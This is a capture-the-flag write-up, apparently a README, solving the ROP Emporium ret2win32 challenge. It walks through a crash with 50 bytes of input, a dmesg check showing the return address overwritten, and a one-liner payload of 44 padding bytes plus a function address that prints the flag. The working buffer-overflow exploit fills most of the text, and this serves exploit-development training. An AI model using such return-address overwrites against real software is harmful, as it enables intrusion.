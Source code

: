 ```nasm
   0x08048680 <+39>:    leave
   0x08048681 <+40>:    ret
End of assembler dump.
```

Fisrt I ran the following command:

```bash

sudo dmesg -C  # this command will be clear the ring  buffer of the kernel.

```

After, I send a buffer with 50 bytes to program:

``` bash

python -c 'print "A" * 50' | ./ret2win32
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> [1]    6408 done                              python -c 'print "A" * 50' | 
       6409 segmentation fault (core dumped)  ./ret2win32

```
Running the command bellow, you clearly see the whats happened: The ***'A'*** (our input) overwrite the return address.  

```bash

┌[dumb☮dumbland]-(~/ropemporium/ret2win32)-[git://master ✗]-
└> sudo dmesg                              
[ 6120.515428] ret2win32[6499]: segfault at 41414141 ip 0000000041414141 sp 00000000ffee1a40 error 14 in libc-2.30.so[f7d90000+1d000]
[ 6120.515438] Code: Bad RIP value.
┌[dumb☮dumbland]-(~/ropemporium/ret2wi

```

After research to find the exact size of buffer tha we can control the ***return address***, we achieve our goal - execute the ***ret2win*** function:

```bash 

┌[dumb☮dumbland]-(~/ropemporium/ret2win32)-[git://master ✗]-
└> python -c 'print "A" * 44  + "\x59\x86\x04\x08"' | ./ret2win32
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
[1]    6691 done                              python -c 'print "A" * 44  + "\x59\x86\x04\x08"' | 
       6692 segmentation fault (core dumped)  ./ret2win32


```


In this particular challenge, the same metodology can be used to solve the 64 bits version. 
